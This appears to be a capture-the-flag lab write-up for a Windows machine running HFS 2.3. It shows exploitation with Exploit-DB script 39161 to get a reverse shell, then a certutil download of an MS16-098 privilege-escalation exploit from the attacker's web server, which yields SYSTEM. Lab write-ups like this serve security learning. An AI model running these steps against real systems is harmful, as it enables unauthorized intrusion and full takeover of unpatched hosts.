 # IP Address: 10.10.10.8

# Enumeration

```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.8 -t all

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

The target is running HttpFileServer (HFS) version 2.3. This software is vulnerable to remote code execution. Exploit code is available here: https://www.exploit-db.com/exploits/39161

# Exploitation

Download the exploit code and run against the target to get a reverse shell. Note: for the exploit, we need to copy netcat to our local web server and edit the local IP address and port values in the exploit code.

```
┌──(code㉿kali)-[~]
└─$ searchsploit hfs
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution ( | windows/remote/39161.py
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

┌──(code㉿kali)-[~]
└─$ searchsploit -m windows/remote/39161.py
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines

Copied to: /home/code/39161.py



┌──(code㉿kali)-[~]
└─$ sudo cp /usr/share/windows-binaries/nc.exe /var/www/html
[sudo] password for code: 

┌──(code㉿kali)-[~]
└─$ sudo service apache2 start
```

Original exploit code:
```
┌──(code㉿kali)-[~]
└─$ grep ip_addr -A 4 39161.py 
        ip_addr = "192.168.44.128" #local IP address
        local_port = "443" # Local Port number

```

Edited code:
```
┌──(code㉿kali)-[~]
└─$ grep ip_addr -A 4 39161.py                                                       
        ip_addr = "10.10.14.7" #local IP address
		local_port = "443" # Local Port number
		
```

Locally, in terminal window 1:
```
┌──(code㉿kali)-[~]
└─$ python 39161.py 10.10.10.8 80
```

Locally, in terminal window 2:
```
┌──(code㉿kali)-[~]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>

```

user.txt

![[Pasted image 20211114204627.png]]

# Privilege Escalation
Copy the output of systeminfo locally for analysis with windows-exploit-suggester.

```
┌──(code㉿kali)-[~/tools]
└─$ python2.7 windows-exploit-suggester.py --database 2021-11-15-mssb.xls --systeminfo systeminfo.txt

[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)

```

Searching google for MS16-098, find https://github.com/sensepost/ms16-098.git
Clone it and copy it to our local web server. 

```
┌──(code㉿kali)-[~]                                                                                                                                                                                                                          
└─$ git clone https://github.com/sensepost/ms16-098.git                                                                                                                                                                                      
Cloning into 'ms16-098'...                                                                                                                                                                                                                   
remote: Enumerating objects: 14, done.
remote: Total 14 (delta 0), reused 0 (delta 0), pack-reused 14
Receiving objects: 100% (14/14), 177.84 KiB | 1.22 MiB/s, done.                                                                                                                                                                              
Resolving deltas: 100% (2/2), done.                                                                                                                                                                                                          

┌──(code㉿kali)-[~]
└─$ sudo cp ms16-098/                                                                                                                                                                                                                        
bfill.exe  .git/      main.c     README.md  
┌──(code㉿kali)-[~]
└─$ sudo cp ms16-098/bfill.exe /var/www/html/sploit.exe
```

Pull it down on the target using certutil. Run it.

```
C:\Users\kostas\Desktop>certutil -urlcache -split -f "http://10.10.14.14/sploit.exe
certutil -urlcache -split -f "http://10.10.14.14/sploit.exe
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.

C:\Users\kostas\Desktop>sploit.exe
sploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

```

# Proof
root.txt

![[Pasted image 20211115195150.png]]